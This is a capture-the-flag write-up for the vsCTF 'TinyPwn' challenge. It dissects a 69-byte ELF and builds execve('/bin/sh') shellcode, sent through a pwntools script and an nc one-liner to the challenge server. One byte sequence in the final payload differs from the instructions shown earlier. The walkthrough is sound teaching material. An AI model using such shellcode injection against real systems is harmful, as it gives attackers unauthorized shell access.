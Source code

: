 ```yaml
---
layout: post
date: 2023-09-25 12:00:00 +0200
title: "TinyPwn"
excerpt_separator: <!--more-->
---
```


# TinyPwn

In this challenge, we are given a very small ELF file (only 69 bytes long).
I was clearly inspired by this following article which I strongly ecourage reading : https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html.
The program waits for an input from the user and then immediatly leads to a segfault. The goal is to find the proper input.

## Understanding the ELF structure

As usual, let's try to open and disassemble this file in gdb.

```
"/home/micronoyau/Documents/vsctf/tinypwn/tinypwn": not in executable format: file format not recognized
```

Ooops, gdb does not understand the file structure. But the file is still an elf :
```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ file tinypwn
tinypwn: ELF 32-bit invalid byte order (SYSV)
```

Lets do a quick hexdump to get more insight into this file :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ hexdump -C tinypwn
00000000  7f 45 4c 46 01 00 00 00  00 00 00 00 00 00 01 00  |.ELF............|
00000010  02 00 03 00 34 00 01 00  34 00 01 00 04 00 00 00  |....4...4.......|
00000020  2f 62 69 6e 2f 73 68 00  34 00 20 00 01 00 00 00  |/bin/sh.4. .....|
00000030  00 00 00 00 6a 03 58 bb  00 00 00 00 89 e1 6a 0d  |....j.X.......j.|
00000040  5a cd 80 ff e4                                    |Z....|
00000045
```

There is the string `/bin/sh` at offset 32. Most likely we are going to need that at some point.

The ELF header is the following (please check https://en.wikipedia.org/wiki/Executable_and_Linkable_Format for more details):

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -h tinypwn
ELF Header:
  Magic:   7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  Class:                             ELF32
  Data:                              none
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x10034
  Entry point address:               0x10034
  Start of program headers:          4 (bytes into file)
  Start of section headers:          1852400175 (bytes into file)
  Flags:                             0x68732f
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers
```

`readelf` is warning us that the ELF file is potentially corrupt because the section headers offset (`e_shoff`) is `0x2f62696e=1852400175`, but the file specifies there is no section headers.
Ok, we can clearly see there is an overlap between the ELF header and some other data.  More exactly, we can see the program header offset (`e_phoff`) is 4, but the header is 52 bytes long (`e_ehsize`). Lets take a look at the list of segments :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -l tinypwn
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers

Elf file type is EXEC (Executable file)
Entry point 0x10034
There is 1 program header, starting at offset 4

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x00010000 0x00030002 0x10034 0x10034 R   0x6e69622f
```

The only segment encompasses the entire file and even more (`Offset=0`, `Filesize=0x10034`) at the address `0x10000`. We saw previously in the ELF header that the entrypoint is `0x10034`. Therefore the first instruction is the `0x34=52`th byte in file, right after the end of the header.
Lets disassemble the remaining portion after the header :

```
0:  6a 03                   push   0x3
2:  58                      pop    eax
3:  bb 00 00 00 00          mov    ebx,0x0
8:  89 e1                   mov    ecx,esp
a:  6a 0d                   push   0xd
c:  5a                      pop    edx
d:  cd 80                   int    0x80
f:  ff e4                   jmp    esp
```

Essentially, this does a syscall to `read` (system call number `eax=3`) on stdin (file descriptor `ebx=0`) and stores the result on the stack (`ecx=esp`). We can read up to `edx=0xd=13` characters. Next, it jumps on top of the stack.

The exploit is easy : we just need to input a shellcode to perform a syscall to execve. We know /bin/sh has offset `0x20` in file, so its address in memory is `0x10020`.

```
0:  b0 0b                   mov    al,0xb
2:  bb 20 00 01 00          mov    ebx,0x10020
7:  31 c9                   xor    ecx,ecx
9:  31 d2                   xor    edx,edx
b:  cd 80                   int    0x80 
```

The corresponding shellcode is `\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80`. The null bytes are not a problem because the `read` syscall does not stop until it reaches the end of the buffer or an EOF. But in the heat of the action we forgot this detail and tried to modify this shellcode to remove any `\x00`.

We did not find any shellcode less than 13 bytes to setup properly every register. Instead, we implemented the exact same syscall but changed `edx` to allow for more room :

```
0:  66 ba 10 10             mov    dx,0x1010
4:  b0 03                   mov    al,0x3
6:  cd 80                   int    0x80
```

\x66\xBA\x10\x10\xB0\x03\xCD\x80

Then, all registers are set up accordingly
```
0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  66 bb 02 10             mov    bx,0x1002
7:  c1 e3 04                shl    ebx,0x4
a:  31 c9                   xor    ecx,ecx
c:  31 d2                   xor    edx,edx
e:  cd 80                   int    0x80
```

To account for the padding introduced by this method (at the time of the syscall in the first step, `eip` is somewhere above the stack pointer), we add some NOP instructions between both shellcodes, as shown in this radare2 dump right after the syscall :
![](<r2.png>)

Putting every piece together and using pwntools :

```
from pwn import *

conn = remote('vsc.tf', 3026)
conn.sendline('\x66\x81\xC2\x01\x01\xB0\x03\xCD\x80\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6A\x0B\x58\x66\xBB\x02\x10\xC1\xE3\x04\x31\xC9\x31\xD2\xCD\x80')
conn.interactive()
```

![](<expl_flag.png>)

Note that, to come back to the beginning of the discussion, that our method is overkill compared to a more optimal solution since we don't need to take special care of NULL bytes :
```
echo -ne '\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80\ncat flag.txt\n' | nc vsc.tf 3026
```
